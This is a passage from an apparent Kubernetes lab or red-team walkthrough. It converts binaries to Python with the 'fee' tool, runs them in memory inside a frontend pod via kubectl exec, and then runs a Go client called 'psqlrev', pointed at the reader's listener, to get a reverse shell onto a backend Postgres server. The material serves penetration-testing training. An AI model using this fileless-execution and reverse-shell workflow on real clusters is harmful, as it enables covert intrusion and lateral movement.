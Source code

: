 Test fee by copying the `id` binary onto your local and converting it to python with `fee`
```sh
$ cp backend/postgres-deployment-85696c855-mr4c2:/usr/bin/id /tmp/kid
$ file /tmp/kid
/tmp/kid: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9db18ea3b88543130f870aa071d9216955c2a541, for GNU/Linux 3.2.0, stripped
```

Next run the fee docker image on the binary and direct the `default` python output to a file
```sh
$ docker run -v /tmp/:/host -it localhost:5000/docker-fee:0.1 /bin/sh -c '/root/.local/lib/python3.11/site-packages/fee.py /host/kid'  > kid.py
```
Lets now test the command by directing the python script to STDIN of the frontend example app pods python interpreter:
```sh
$ cat kid.py | kubectl -n frontend exec -it app-6f85bcbff4-m6zht -- python3
Unable to use a TTY - input is not a terminal or the right kind of file
uid=1000(appuser) gid=1000(appuser) groups=1000(appuser)
```
If this works YAY! This workflow is going to be reused for all the tools. 

---
Notes:
* The binary needs to be compiled with the glibc equal or lesser
  - Get gcc version with `ldd --version` 
For a glibc version of 2.34 I'm using the `ubuntu:16.04` docker image to cp my bins.
* You may need to play with `fee's` final output
  - The in memory file descriptor is the last line of output 
  - `os.execle(p, 'myid', {})`
  - Arguments: fdesc ,'process name', {"env=variables"}
---

## Step 5: Interacting with a Discovered Postgres Server

<a id="item-five"></a>
After identifying a Postgres service via enviorment variables, we'll execute a postgres client binary writen in `go` on the target:

Update the `psqlrev.go` script with your own listener ip and port. Now you need to build the go script with specific build flags, to get a static build. We need this to make sure that the binary gets compiled with a glibc version equal or less then the one on the target.

```sh
$ CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build exploit.go
```

Use the `fee` command for execution:

```sh
$ docker run -v /tmp/:/host -it localhost:5000/docker-fee:0.1 /bin/sh -c '/root/.local/lib/python3.11/site-packages/fee.py /host/psqlrev'  > psqlrev.py
```
## run the psqlrev.py and attempt to gain a reverse shell
Test it like this:
```bash
$ cat psqlrev.py | kubectl -n frontend exec -it app-6f85bcbff4-m6zht -- python3
```
You should now be on the backend server!
